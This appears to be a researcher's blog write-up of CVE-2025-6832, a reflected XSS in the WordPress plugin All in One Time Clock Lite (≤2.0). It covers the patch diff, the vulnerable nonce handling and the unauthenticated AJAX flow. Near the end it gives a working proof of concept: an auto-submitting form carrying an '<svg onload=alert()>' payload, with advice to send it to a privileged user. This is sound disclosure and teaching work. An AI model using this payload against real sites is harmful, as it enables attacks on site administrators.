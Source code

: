 # CVE-2025-6832 Analysis & POC


<!--more-->

**Reflected Cross-Site Scripting (XSS) vulnerability** in the **All in One Time Clock Lite** plugin for WordPress.
The vulnerability originates from the **nonce** parameter in versions up to and including **2.0**, due to **insufficient input handling** and **lack of output escaping**.
An attacker (including unauthenticated) can inject arbitrary script snippets into the page; these scripts will execute when the victim performs the manipulated action (for example: clicking a link).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) and **v2.0.1** (patched).
* **Diff tool** - **Meld** or any diff comparison tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

In the **vulnerable** version, the `nonce` parameter is taken directly from `$_POST` with **no sanitization**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

In the **patched** version, the `nonce` parameter is processed with [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) before use, preventing injection of malicious code:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 The patch adds an input filtering layer for the `nonce` variable, ensuring data received from the request will have dangerous characters removed before further processing.

![Diff — code change comparison between vulnerable and patched versions](diff.png "Code change comparison between vulnerable and patched versions")

### Vulnerable code

The vulnerability is located in the function `aio_time_clock_lite_js()` of the class `AIO_Time_Clock_Lite_Actions` in the file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```

{: file="aio-time-clock-lite-actions.php"}

The `wp_verify_nonce()` function compares the `$nonce` value sent from the client with a valid value previously generated by the server using `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```

{: file="aio-settings.php"}

If `$nonce` is invalid => it goes to the `else` branch returning a **JSON** error that contains `$nonce`.

Clicking `2 references` shows that the function `public function aio_time_clock_lite_js()` is registered as a callback for action hooks:

![Callback registration for ajax hooks](ref1.png "Callback registration for ajax hooks")
*The function aio_time_clock_lite_js() is attached to two Ajax hooks (authenticated & unauthenticated)*

* `wp_ajax_aio_time_clock_lite_js` (authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js` (unauthenticated). => Focus

### Sources & Sinks

* **Source**: The `nonce` parameter is taken directly from `$_POST` (unauthenticated request).
* **Sink**: The `nonce` value is reflected back in `echo json_encode(...)`.

### Flow

1. Send a POST request (unauthenticated) to `/wp-admin/admin-ajax.php` with **params**:

```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. The callback `aio_time_clock_lite_js()` is invoked
3. The `nonce` value is checked => **invalid**
4. The `nonce` value is reflected into the response body via `echo json_encode(...)`

## Exploit

### Proof of Concept (PoC)

* Create a webpage containing a submit form:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

* Send the link to the page containing the form to a user with privileges.
* Observe the injected **JavaScript** executing.

![Result — PoC execution screenshot](result.png "Result — PoC execution screenshot")

## Conclusion

The **CVE-2025-6832** vulnerability in **All in One Time Clock Lite <= 2.0** allows an **unauthenticated attacker** to exploit a Reflected XSS via the `nonce` parameter. The **2.0.1** patch added `sanitize_text_field()` to filter input, preventing malicious code from being reflected in the JSON response.

**Key takeaways**:

* Always **sanitize** and **escape** data before returning it in responses.
* Endpoints exposed to **nopriv (unauthenticated)** requests should be carefully reviewed.
* Reflected XSS commonly occurs when input values are directly reflected into output (JSON/HTML).
* **Updating the plugin** promptly is the simplest way to reduce risk.

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-07-cve-2025-6832/  

